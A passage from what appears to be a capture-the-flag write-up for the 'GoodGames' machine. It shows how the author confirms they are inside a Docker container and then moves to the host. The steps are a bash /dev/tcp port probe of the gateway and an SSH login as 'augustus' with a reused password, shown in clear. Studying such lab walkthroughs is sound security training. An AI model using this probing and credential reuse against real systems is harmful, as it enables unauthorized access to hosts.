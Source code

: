 A final test we can perform to determine if we are operating within a Docker environment is to examine how the filesystem is mounted:

```bash
root@3a453ab39d3d:/backend# df -h
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         8.9G  5.3G  3.2G  63% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda1       8.9G  5.3G  3.2G  63% /home/augustus
shm              64M     0   64M   0% /dev/shm
tmpfs           2.0G     0  2.0G   0% /proc/acpi
tmpfs           2.0G     0  2.0G   0% /sys/firmware
```
This output reveals an overlay filesystem mounted at `/`, which is typical for Docker containers. It also shows `/dev/sda1` mounted at `/home/augustus`, indicating a bind mount or a volume. This specific mount point suggests 
a directory from the host system (/home/augustus) is being mapped into the container, a common practice in Docker for data persistence or sharing between the host and the container.

One thing that it is important to note is that in a Docker environment, each container is typically assigned an IP address from a subnet managed by Docker. The default behavior is for Docker to create a bridge network and assign IP addresses to each container connected to this network. The first IP in the subnet, often ending in .1, is usually assigned to the gateway of the Docker bridge network, which facilitates communication between the containers and the host machine.

Since our container's IP ends with .2, then it is highly likely that the .1 address is the one that links the container to the
host machine. We can check if SSH port on this gateway is open by using this command:

```bash
timeout 3 bash -c 'cat < /dev/null > /dev/tcp/172.19.0.1/22'
```

If no error messages are shown, then it is probable that the port is open and we can try to SSH into the machine. From our enumeration, we found that `augustus` is a user. Based on the problem description, we see that it mentions password reuse. If
that is the case, then the SSH credentials might be `augustus:superadministrator`:

```bash
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1 password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 13 16:19:33 2024 from 172.19.0.2
augustus@GoodGames:~$ 
```
